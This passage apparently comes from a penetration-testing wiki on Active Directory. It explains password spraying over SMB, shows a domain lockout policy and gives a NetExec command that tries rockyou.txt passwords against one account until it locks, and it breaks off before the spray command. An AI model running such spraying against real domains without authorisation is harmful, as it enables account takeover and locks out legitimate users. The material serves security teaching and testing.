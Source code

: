 {% hint style="info" %}
**Tip**: If you get a "\[Errno -2] Name or service not known" message, it cannot resolve the domain name. Make sure you add any hosts like `dc01.$DOMAIN` to your `/etc/hosts` file.
{% endhint %}

LDAP contains much more domain information, not just usernames. [#bloodhound](active-directory-privilege-escalation.md#bloodhound "mention") can do this.

### Spray passwords

To try one (or a few) passwords on many users, there are different protocols you can use. In the end, they all query the same data, but some protocols might be unavailable due to various reasons. The most common is SMB (port 139,445), which is mainly used for sharing files over the network, but also different mechanisms like printers or some internal communication.

Important to note is that Active Directory has **rate limiting** in the form of **blocking accounts** after too many failed login attempts. In the following example, after 5 failed attempts on the account, it will be blocked for 30 minutes. Only after that period will you be able to try again.

<pre class="language-powershell"><code class="lang-powershell">PS C:\> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
<strong>Lockout threshold:                                    5
</strong><strong>Lockout duration (minutes):                           30
</strong><strong>Lockout observation window (minutes):                 30
</strong>Computer role:                                        WORKSTATION
</code></pre>

You can see this behavior in action in the following example:

<pre class="language-shell-session" data-title="Account Lockout Example"><code class="lang-shell-session"><strong>$ nxc smb $IP -u $USERNAME -p /list/rockyou.txt
</strong>SMB   $IP   445    DC01     [-] $DOMAIN\$USERNAME:123456    STATUS_LOGON_FAILURE
SMB   $IP   445    DC01     [-] $DOMAIN\$USERNAME:12345     STATUS_LOGON_FAILURE
SMB   $IP   445    DC01     [-] $DOMAIN\$USERNAME:123456789 STATUS_LOGON_FAILURE
SMB   $IP   445    DC01     [-] $DOMAIN\$USERNAME:password  STATUS_LOGON_FAILURE
SMB   $IP   445    DC01     [-] $DOMAIN\$USERNAME:iloveyou  STATUS_LOGON_FAILURE
<strong>SMB   $IP   445    DC01     [-] $DOMAIN\$USERNAME:princess  STATUS_ACCOUNT_LOCKED_OUT
</strong><strong>SMB   $IP   445    DC01     [-] $DOMAIN\$USERNAME:1234567   STATUS_ACCOUNT_LOCKED_OUT
</strong></code></pre>

The tool used here is [NetExec](https://github.com/Pennyw0rth/NetExec), a _fork of_ [_CrackMapExec_](https://github.com/byt3bl33d3r/CrackMapExec) after it has been archived. This tool is very useful for spraying various protocols with credentials, and then performing actions with found logins.

{% embed url="https://github.com/Pennyw0rth/NetExec" %}
Tool for interacting with Active Directory protocols
{% endembed %}

To spray a password for all users you have, simply provide a domain-joined IP with SMB open, and use the `-u` and `-p` options from which it will try all combinations:
